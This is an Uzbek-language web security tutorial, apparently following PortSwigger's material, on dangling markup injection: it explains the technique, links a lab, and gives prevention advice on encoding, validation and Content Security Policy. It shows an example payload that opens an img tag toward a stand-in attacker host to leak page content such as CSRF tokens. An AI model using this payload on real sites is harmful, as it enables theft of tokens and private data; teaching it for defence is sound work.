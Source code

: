 # Dangling markup

Ushbu bo'limda Dangling markup ineksiya nima ekanligi haqida, oddiy exploitlarni qanday amalga oshirish mumkinligi haqida va dangling markup xujumlarini oldini olish haqida gaplashamiz.

## <mark style="color:yellow;">Dangling Markup ineksiya nima?</mark> <a href="#dangling-markup-inektsiya-nima" id="dangling-markup-inektsiya-nima"></a>

Dangling markup ineksiya bu XSSni ishlatish mumkin bo'lmagan joylardagi domenlararo ma'lumotni ushlash uchun ishlatiladigan usul.

Faraz qilaylik, web sayt haker tomonidan boshqariladigan maʼlumotlarni oʻz javoblariga xavfli tarzda joylashtiradi:

{% code overflow="wrap" %}
```html
<input type="text" name="input" value="boshqariladigan ma'lumot
```
{% endcode %}

Faraz qilaylik, web sayt > yoki " belgilarni filtrlamaydi yoki chetlab o‘tmaydi. Haker kiritgan atribut qiymati va qo‘shuvchi tegdan chiqib ketish va HTML kontekstiga qaytish uchun quyidagi sintaksisdan foydalanishi mumkin:

```
">
```

```
"><img src='//attacker-website.com?
```

Ushbu payload `img` tegini yaratadi va haker serveridagi URL manzilini o'z ichiga olgan `src` atributining boshlanishini bildiradi. Esda tutingki Haker o'zining payloadidagi `src` atributini ohirini yopmadi. Brauzer javobni tahlil qilganda, atributni tugatish uchun birtirnoq belgisiga duch kelmaguncha harakat qilaveradi.  Bu belgigacha bo'lgan barcha narsalar URLning bir qismi sifatida ko'rib chiqiladi va URL so'rovlar qatori ichida Haker serveriga yuboriladi. Har qanday alphanumeric bo'lmagan belgilar, ayniqsa yangi qatorlar URL-encoding bo'ladi.

Hujum natijasi shundaki, Haker maxfiy ma'lumotlarni o'z ichiga olishi mumkin bo'lgan ineksiya qismidan keyin web sayt javobining bir qismini qo'lga kiritishi mumkin. Web saytning funksionalligiga qarab, bu <mark style="color:yellow;">**CSRF**</mark> tokenlari, elektron pochta xabarlari yoki moliyaviy ma'lumotlarni o'z ichiga olishi mumkin.

Tashqi so'rovni amalga oshiradigan har qanday atribut <mark style="color:yellow;">**dangling markup**</mark> uchun ishlatilishi mumkin.

Keyingi laboratoriyani bajarish qiyin, chunki barcha tashqi so'rovlar bloklangan. Biroq, ma'lumotlarni saqlash va tashqi serverdan keyinroq olish imkonini beruvchi ba'zi teglar mavjud.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Juda qatiy SCP bilan himoyalangan dangling markup hujimi orqali Reflected XSS  ≫](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)
{% endhint %}

## <mark style="color:yellow;">Dangling Markup xujumlarini qanday oldini olish mumkin?</mark> <a href="#dangling-markup-xujumlarini-qanday-oldini-olish-mumkin" id="dangling-markup-xujumlarini-qanday-oldini-olish-mumkin"></a>

Siz dangling markup xujumlarini XSSga qarshi himoyadagidek ximoyalanishingiz mumkin, ya'ni chiqayotgan ma'lumotni kodlab va kelayotgan ma'lumotlarni tekshirib.

Bundan tashqari, <mark style="color:yellow;">Content Security Policy</mark> (CSP) yordamida ba'zi dangling markup hujumlarining tasirini kamaytira olasiz. Misol uchun, `img` kabi teglarning tashqi resurslarni yuklashiga to'sqinlik qiluvchi siyosatdan foydalanib, ba'zi (ammo hammasini emas) hujumlarning oldini olishingiz mumkin.
